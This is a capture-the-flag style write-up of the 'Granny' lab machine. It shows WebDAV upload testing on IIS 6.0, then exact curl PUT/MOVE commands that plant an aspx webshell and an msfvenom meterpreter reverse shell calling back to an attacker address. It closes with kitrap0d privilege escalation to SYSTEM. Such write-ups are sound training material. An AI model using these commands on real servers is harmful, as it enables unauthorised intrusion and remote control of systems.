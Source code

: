 # Granny

### Reconnaissance

- port 80/tcp HTTP Microsoft IIS httpd 6.0

nmap service scans show the target is vulnerable to uploads through WebDAV

![WebDAV vulns](./pictures/webdav-vuln.png)

We can test which file types can be uploaded with `davtest`

`davtest -url http://10.10.10.15`

![davtest](./pictures/davtest-put.png)

Or manually with curl

`curl -X PUT http://10.10.10.15/test.txt -d @test.txt`

![Test](./pictures/test-put.png)

### Exploitation

We can upload an aspx webshell as a text file with PUT, then use MOVE to change it back to an .aspx file

```
curl -X PUT http://10.10.10.15/cmd.txt -d @cmdasp.aspx
curl -X MOVE -H 'Destination:http://10.10.10.15/cmd.aspx' http://10.10.10.15/cmd.txt
```

This gives us RCE on the target

![Webshell](./pictures/webshell.png)

We need a proper shell on the target, uploading nc.exe didn't work so we can use an .aspx meterpreter shell
and upload it in the same way as the webshell

We need to use `--data-binary` for the PUT command as the file formatting gets ruined otherwise

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f aspx -o met.aspx
curl -X PUT http://10.10.10.15/met.txt --data-binary @met.aspx
curl -X MOVE -H 'Destination:http://10.10.10.15/met.aspx' http://10.10.10.15/met.txt
```

Starting a multi/handler and executing the .aspx gives us a meterpreter shell

### Privilege Escalation

Enumeration shows the target is a Windows Server 2003, so likely vulnerable to a kernel exploit

The local_exploit_suggester module shows the target is vulnerable to kitrap0d and a few other exploits

![Exploits](./pictures/local-exploit-suggester.png)

Running kitrap0d gives us a System shell

![Exploits](./pictures/kitrap0d.png)
